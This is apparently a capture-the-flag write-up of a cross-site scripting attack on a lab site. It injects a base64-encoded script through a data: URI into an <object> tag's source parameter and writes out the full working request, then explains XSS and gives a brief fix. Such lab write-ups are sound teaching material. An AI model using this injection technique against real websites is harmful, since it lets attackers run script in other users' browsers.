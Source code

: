 # XSS advanced
We find the only clickable image on the site -> click on it  
```http://[VM_IP]/?page=media&src=nsa```

Here we see that the image is in object but not in img tag
```
<object data="http://[VM_IP]/images/nsa_prism.jpg"></object>
```

What is [Object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)?
> The object HTML element represents an external resource, which can be treated as an image,
> a nested browsing context, or a resource to be handled by a plugin.

In order for our data to be processed as html, we use the following form:
```
<object data="data:text/html;base64,payload_in_base64"></object>
```

Let's encode our js code to base64  
```
base64(<script>alert("crazy XSS attack");</script>) = "PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg=="
```

So, let's try this:
```
http://[VM_IP]/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg==
```

![flag](./img/flag.png)


## Explanation
Attack type: [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/)
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
> XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
> Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

## How to fix it
> Use the <img> tag for images and be careful with the <object>.
